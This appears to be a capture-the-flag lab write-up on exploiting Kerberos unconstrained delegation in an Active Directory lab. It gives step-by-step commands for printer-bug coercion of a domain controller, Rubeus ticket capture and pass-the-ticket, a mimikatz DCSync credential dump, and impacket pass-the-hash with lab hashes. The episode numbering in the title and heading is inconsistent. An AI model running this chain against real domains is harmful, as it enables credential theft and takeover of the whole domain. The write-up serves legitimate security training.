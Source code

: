 ```yaml
---
date: 2025-03-17
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.9 – Active Directory Certificate Services"
tags: ['impacket', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows']

description: "Kerberos Ep. 9 – Unconstraine - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep. 9 – Unconstrained Delegation


![image1](../resources/7f2555936ca4415aba773fa7bcc11a88.png)

![image2](../resources/5336fb7734cf44009120496934609a5d.png)

Use following command in powershell.exe to dot source the script first:

```bash
. .\Powerview_dev.ps1
```
**<u>Dot sourcing</u>**

The dot sourcing feature lets you run a script in the current scope instead of in the script scope. When you run a script that is dot sourced, the commands in the script run as though you had typed them at the command prompt

- On workstation-01 run Powerview:

```bash
. .\Powerview_dev.ps1

```

![image3](../resources/8ebb39d0918648d3b86f734d76c7d861.png)

- Enumerating for unconstrained delegation:

```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image4](../resources/e7519f27495043109e63411a9c3ad29b.png)


![image5](../resources/bfb5d5b0d2a440a481f774ec27bfa45f.png)

<u>Exploiting unconstrained delegation:</u>
Now that you have access to a host with an unconstrained delegation set, you can force a privileged user to connect to the system. To do this, you'll need to use the MS-RPRN tool (aka spoolsample). This tool will force a DC account to connect to our hostname; in this case, Workstation-02

- Open an elevated command prompt and monitor for TGT **(Open in CMD not PS)**:

```bash
Rubeus.exe monitor /interval:1

```

![image6](../resources/bfc9a81bb20d4de08eeaa2e918811b97.png)

- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:

```bash
.\MS-RPRN.exe

.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image7](../resources/680b6e010f0c4884b4948f09b0450e55.png)


![image8](../resources/ec4ff9197f54477684e68afcef95ed57.png)


![image9](../resources/53eb6570d2ea485591806990b9bd70e5.png)

- Since the host has an unconstrained delegation feature enabled, you can obtain a valid TGT to impersonate a DC account

- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```bash
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"[\n\t\s]*", "", f))'

```
- Copy the output and paste into the command (on Windows):

(Convert from Base64 and saves it in **DC.kirbi**)

```powershell
[IO.File]::WriteAllBytes("C:\Users\m.oh\Desktop\Tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```

![image10](../resources/e1433203f58b43c893bef66332ce4b21.png)

- Load the ticket into memory:

```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```

![image11](../resources/6c20fb63571042a6a69ed2f1ec95cecb.png)

- Check that it has been loaded in successfully:

```bash
klist

```

![image12](../resources/aa9591288001480688632c98b75ddc84.png)


![image13](../resources/aba65a0a932c4f859628f57061753344.png)


![image14](../resources/71f94ac080a24844b1622f1374fe491c.png)

- Open mimikatz:

```bash
lsadump::dcsync /user:krbtown\a.belridge

```

![image15](../resources/68b77d027e6d4eb9bd58e5dd8f0a56e1.png)

- Use wmiexec to gain access to the DC:

```bash
impacket-wmiexec [DOMAIN]/[USERNAME]@[TARGET] -hashes [LM-HASH]:[NT-HASH] 

impacket-wmiexec krbtown/a.belridge@10.102.110.227 -hashes 5bc77749d18b5076452c01b71eda19d0:a3352be00f83a3a7f86a8825e49d5011

```

![image16](../resources/654fc3178ff04959a0716fbc18c27eff.png)


![image17](../resources/1e43f17df0a24df894fe4b7ac6ddfd50.png)


![image18](../resources/e2146712bf5d408abb70a7acc7c1da8f.png)
